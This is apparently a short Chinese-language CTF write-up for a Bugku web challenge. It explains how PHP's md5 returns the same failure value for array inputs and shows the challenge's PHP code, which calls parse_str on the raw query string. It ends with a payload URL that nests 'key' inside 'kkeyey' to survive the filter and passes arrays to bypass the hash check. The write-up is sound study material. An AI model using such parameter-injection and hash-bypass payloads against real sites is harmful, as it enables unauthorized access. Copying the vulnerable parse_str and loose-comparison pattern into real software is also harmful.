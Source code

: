 ```yaml
---
大致原理就是如果md5/sha1函数处理数组的时候就会报错返回false，如果两边都是数组的话就会都返回false，相等条件就会成立
---
```

## 直接上一个bugku的题说明一下问题
```php
<?php
/**
 * Created by PhpStorm.
 * User: Norse
 * Date: 2017/8/6
 * Time: 20:22
*/

include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');  //返回url包括问号后面的内容
$str = substr($str,1); //去掉问号
$str = str_replace('key','',$str); //key替换成空
parse_str($str);//这里最后$str = key1[]= adsa&&key2=adsa
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```

payload：[http://120.24.86.145:8002/web16/index.php?kkeyey1\[\]=1&&kkeyey2\[\]=2](http://120.24.86.145:8002/web16/index.php?kkeyey1[]=1&&kkeyey2[]=2)